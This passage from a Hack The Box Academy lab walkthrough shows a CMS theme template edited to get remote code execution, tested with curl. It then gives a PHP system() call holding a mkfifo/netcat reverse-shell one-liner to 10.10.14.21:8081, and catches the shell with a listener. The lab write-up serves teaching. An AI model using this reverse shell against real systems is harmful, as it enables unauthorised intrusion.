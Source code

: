 ![Theme edited](./images/gettingstarted_theme_edited.png)

Now we can `curl` the file to test the RCE:
```
┌──(kali㉿kali)-[~/Desktop/hackthebox/htb_academy]
└─$ curl http://gettingstarted.htb/theme/Innovation/template.php
uid=33(www-data) gid=33(www-data) groups=33(www-data)
                                                                                                                                                           
┌──(kali㉿kali)-[~/Desktop/hackthebox/htb_academy]
└─$ 
```

It was successful!

We can now replace our test line with a reverse shell:
```
system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.21 8081 >/tmp/f');
```

Save the file, start a listener and `curl` it again gives us an shell:
```
┌──(kali㉿kali)-[~/Desktop/hackthebox/htb_academy]
└─$ nc -lnvp 8081
Listening on 0.0.0.0 8081
Connection received on 10.129.42.107 36050
sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ 
```
